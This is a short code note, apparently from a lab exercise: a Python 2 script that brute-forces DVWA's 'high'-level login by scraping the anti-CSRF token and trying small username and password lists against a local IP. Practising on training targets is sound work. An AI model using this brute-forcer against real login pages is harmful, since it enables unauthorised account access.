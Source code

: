參考:https://lonelysec.com/dvwa%ef%bc%88damn-vulnerable-web-application%ef%bc%89-brute-force/

python:
```python=
import urllib2
import re

#輸入當前IP地址
IP = '192.168.43.96'
#輸入自己當前的sessionid
PHPSESSID = '61adb5af7a80da7bba6a0d22110e39a4'

#設定cookie
opener = urllib2.build_opener()
opener.addheaders.append(('Cookie', 'security=high; PHPSESSID=' + PHPSESSID))

#爆破字典
usernames = ['admin','manage','system','root','whoami']
passwords = ['admin','root','123456','password','abc123','111111','654321','000000']

#確認破解範圍
flag=0

for username in usernames:
    if flag==1:
        break
    for password in passwords:
        #訪問首頁
        response = opener.open('http://' + IP + '/vulnerabilities/brute/')
        content = response.read()
        #獲取user_token
        user_token = re.findall(r"(?<=<input type='hidden' name='user_token' value=').+?(?=' />)",content)[0]
        #傳送登入資料包
        url = 'http://'+IP+'/vulnerabilities/brute/?username='+username+'&password='+password+'&Login=Login&user_token='+user_token
        response = opener.open(url)
        content = response.read()
        #確認破解結果
        print '-'*20
        print u'使用者名稱：'+username
        print u'密碼：'+password
        if 'Username and/or password incorrect.' in content:
            print u'Fail...'
        else:
            print u'Success~'
            flag=1
            break
        print '-'*20



```
